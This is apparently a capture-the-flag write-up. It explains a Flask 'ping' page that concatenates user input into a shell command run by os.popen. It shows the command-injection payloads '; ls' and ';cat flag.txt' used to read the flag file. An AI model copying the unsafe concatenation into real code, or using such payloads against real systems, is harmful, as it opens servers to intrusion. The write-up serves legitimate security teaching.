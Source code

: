 ## Write Up For Ping Pong

Opening up the site we can see a text box input.

We also know that the purpose of the website is to print out
the response when you ping a website.

For more information, we can open the pingpong.py file given to us 
and analyze how it works.

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output=output)
```

Notice how they ping a website is by concatenated the input string
with "ping -c 3" which is then excuted with os.popen

This means that we can use command injection

Example payload
```bash
; ls
```
Submiting this we can see all the files in the current directory of the python file
```txt
flag.txt
pingpong.py
templates
```

BOOM theres flag.txt

Now we can use the payload

```bash
;cat flag.txt
```

And our flag is printed on the screen
